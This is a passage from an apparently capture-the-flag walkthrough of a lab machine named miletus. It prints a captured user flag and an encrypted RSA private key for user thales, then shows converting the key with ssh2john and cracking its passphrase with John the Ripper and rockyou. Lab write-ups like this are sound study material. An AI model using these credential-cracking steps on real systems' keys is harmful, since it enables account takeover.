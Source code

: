 I am root on the machine and I have captured the root flag. To capture the user flag I only have to run the following command: **cat /home/thales/user.txt**
```bash
root@miletus:~# cat /home/thales/user.txt
cat /home/thales/user.txt
a837c0b5d2a8a07225fd9905f5a0e9c4
root@miletus:~# 
```
Both flags are captured, but I guess the intention was to capture the user flag before the root flag via the user Thales. This could be done via the private key of the user. 

## Alternative path.... via the user thales
Since I captured the private key to my notes I added it as well to my working directory for "thales" with nano.
```bash
┌──(emvee㉿kali)-[~/Documents/thales]
└─$ nano id_rsa        
                                                                                                                                                                                                                                            
┌──(emvee㉿kali)-[~/Documents/thales]
└─$ cat id_rsa   
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6103FE9ABCD5EF41F96C07F531922AAF

ZMlKhm2S2Cqbj+k3h8MgQFr6oG4CBKqF1NfT04fJPs1xbXe00aSdS+QgIbSaKWMh
+/ILeS/r8rFUt9isW2QAH7JYEWBgR4Z/9KSMSUd1aEyjxz7FpZj2cL1Erj9wK9ZA
InMmkm7xAKOWKwLTJeMS3GB4X9AX9ef/Ijmxx/cvvIauK5G2jPRyGSazMjK0QcwX
pkwnm4EwXPDiktkwzg15RwIhJdZBbrMj7WW9kt0CF9P754mChdIWzHrxYhCUIfWd
rHbDYTKmfL18LYhHaj9ZklkZjb8li8JIPvnJDcnLsCY+6X1xB9dqbUGGtSHNnHiL
rmrOSfI7RYt9gCgMtFimYRaS7gFuvZE/NmmIUJkH3Ccv1mIj3wT1TCtvREv+eKgf
/nj+3A6ZSQKFdlm22YZBilE4npxGOC03s81Rbvg90cxOhxYGTZMu/jU9ebUT2HAh
o1B972ZAWj3m5sDZRiQ+wTGqwFBFxF9EPia6sRM/tBKaigIElDSyvz1C46mLTmBS
f8KNwx5rNXkNM7dYX1Sykg0RreKO1weYAA0yQSHCY+iJTIf81CuDcgOIYRywHIPU
9rI20K910cLLo+ySa7O4KDcmIL1WCnGbrD4PwupQ68G2YG0ZOOIrwE9efkpwXPCR
Vi2TO2Zut8x6ZEFjz4d3aWIzWtf1IugQrsmBK+akRLBPjQVy/LyApqvV+tYfQelV
v9pEKMxR5f1gFmZpTbZ6HDHmEO4Y7gXvUXphjW5uijYemcyGx0HSqCSER7y7+phA
h0NEJHSBSdMpvoS7oSIxC0qe4QsSwITYtJs5fKuvJejRGpoh1O2HE+etITXlFffm
2J1fdQgPo+qbOVSMGmkITfTBDh1ODG7TZYAq8OLyEh/yiALoZ8T1AEeAJev5hON5
PUUP8cxX4SH43lnsmIDjn8M+nEsMEWVZzvaqo6a2Sfa/SEdxq8ZIM1Nm8fLuS8N2
GCrvRmCd7H+KrMIY2Y4QuTFR1etulbBPbmcCmpsXlj496bE7n5WwILLw3Oe4IbZm
ztB5WYAww6yyheLmgU4WkKMx2sOWDWZ/TSEP0j9esOeh2mOt/7Grrhn3xr8zqnCY
i4utbnsjL4U7QVaa+zWz6PNiShH/LEpuRu2lJWZU8mZ7OyUyx9zoPRWEmz/mhOAb
jRMSyfLNFggfzjswgcbwubUrpX2Gn6XMb+MbTY3CRXYqLaGStxUtcpMdpj4QrFLP
eP/3PGXugeJi8anYMxIMc3cJR03EktX5Cj1TQRCjPWGoatOMh02akMHvVrRKGG1d
/sMTTIDrlYlrEAfQXacjQF0gzqxy7jQaUc0k4Vq5iWggjXNV2zbR/YYFwUzgSjSe
SNZzz4AMwRtlCWxrdoD/exvCeKWuObPlajTI3MaUoxPjOvhQK55XWIcg+ogo9X5x
B8XDQ3qW6QJLFELXpAnl5zW5cAHXAVzCp+VtgQyrPU04gkoOrlrj5u22UU8giTdq
nLypW+J5rGepKGrklOP7dxEBbQiy5XDm/K/22r9y+Lwyl38LDF2va22szGoW/oT+
8eZHEOYASwoSKng9UEhNvX/JpsGig5sAamBgG1sV9phyR2Y9MNb/698hHyULD78C
-----END RSA PRIVATE KEY-----
```
To gain the passphrase for the private key I use the command **ssh2john id_rsa > hash-ssh** to create a hash file which can be cracked with John the Ripper.
```bash
┌──(emvee㉿kali)-[~/Documents/thales]
└─$ ssh2john id_rsa > hash-ssh           
```
As soon as the hash file is created I can start John the Ripper to brute force the passphrase with a dictionary. In this case I choose the famous rockyou file.
I use the command **john hash-ssh --wordlist=/usr/share/wordlists/rockyou.txt** to start brute forcing the passphrase.
```
┌──(emvee㉿kali)-[~/Documents/thales]
└─$ john hash-ssh --wordlist=/usr/share/wordlists/rockyou.txt
```